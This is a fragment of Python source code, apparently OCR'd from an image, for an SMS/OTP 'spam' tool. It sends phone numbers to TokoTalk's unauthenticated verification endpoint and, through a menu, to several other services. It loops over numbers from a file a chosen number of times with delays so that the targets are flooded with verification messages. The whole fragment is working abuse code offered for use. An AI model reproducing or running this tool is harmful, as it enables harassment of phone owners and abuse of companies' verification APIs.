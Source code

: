 	def TokoTalk(self):
		data='{"key":"phone","value":"'+str(self.nomer)+'"}'
		head={
			"User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36",
			"content-type":"application/json;charset=UTF-8"
		}
		if 'expireAt' in requests.post("https://api.tokotalk.com/v1/no_auth/verifications",data = data,headers=head).text:
			return f'\x1b[92mSpamm TokoTalk {self.nomer} {h}Success!'
		else:
			return f'\x1b[92mSpamm TokoTalk {self.nomer} {m}Fail!'
# ------------------------------------------------------------

# ---------------------------Fungsi----------------------------
def apakah():
	while True:
		lan=str(input(k+'\tWant more? y/n : '+h))
		if( lan == 'y' or lan == 'Y'):
			jnspam()
		elif(lan == 'n' or lan == 'N'):
			print(p)
			break
		else:
			continue
def files():
	fil=str(input(k+'\tFile : '+h))
	if fil in os.listdir(os.getcwd()):
		l=open(fil,'r').readlines()
		js=int(input(k+'\tTotal spam : '+h))
		dly=int(input(k+'\tDelay : '+h))
		for pp in range(js):
			for d in range(len(l)-1):
				io=l[d].split('\n')[0]
				z=spam(io)
				if jns == 'ktbs':
					print('\t'+z.spam().__str__())
				elif jns == 'tkpd':
					print('\t'+z.tokped().__str__())
				elif jns == 'blji':
					print('\t'+z.balaji().__str__())
				elif jns == 'smua':
					print('\t'+z.spam().__str__())
					print('\t'+z.tokped().__str__())
					print('\t'+z.balaji().__str__())
					print('\t'+z.phd().__str__())
					print('\t'+z.TokoTalk().__str__())
				elif jns == 'pehd':
					print('\t'+z.phd().__str__())
				elif jns == 'ttk':
					print('\t'+z.TokoTalk().__str__())
				else:
					print()
				time.sleep(dly)
		apakah()
	else:
		print(m+f'\tFile {fil} doesn`t exist')
def single():
	nomer=str(input(k+'\tPhone number : '+h))
